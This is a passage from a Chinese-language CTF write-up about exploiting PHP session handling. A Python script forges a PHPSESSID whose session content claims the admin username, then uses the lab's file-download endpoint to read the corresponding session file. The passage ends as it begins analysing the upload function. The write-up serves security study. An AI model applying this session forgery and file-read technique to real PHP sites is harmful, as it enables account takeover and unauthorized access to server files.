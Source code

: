 

注：不仅可以使用 Set-Cookie: PHPSESSID= 中设定的 session，如果我们将 PHPSESSID 设定为自定义的一个值，php 也会创建相应的会话文件。



下载文件：

即使相同的PHP版本，在不同的环境下，session文件内容的格式，也有可能不同。

在这个CTF中，最好是通过 download 获取 session 文件的内容，以确定格式。

注：有些格式可能含有不可见字符，需要使用二进制的方式查看。

```python
import requests
import hashlib
import re
from parse_header import parse_header

proxies = {
    'http': 'http://127.0.0.1:50052',
    'https': 'socks5://127.0.0.1:50052'
}

url = "http://172.16.0.1:6408/index.php"

payload = b'username|s:5:"admin";'

sess_id = hashlib.sha256(payload).hexdigest()

header = f"""
Cookie: PHPSESSID={sess_id}
"""
header = parse_header(header)

data = {
    "direction": "download",
    "filename": f"sess_{sess_id}"
}

r = requests.post(url=url,headers=header,data=data,proxies=proxies)
print(r.text)
```

返回结果：

![image-20241019213024741](./images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20241019213024741.png)



上传文件：

代码分析：POST 请求 direction 参数为操作类型，attr 参数为 文件保存路径。
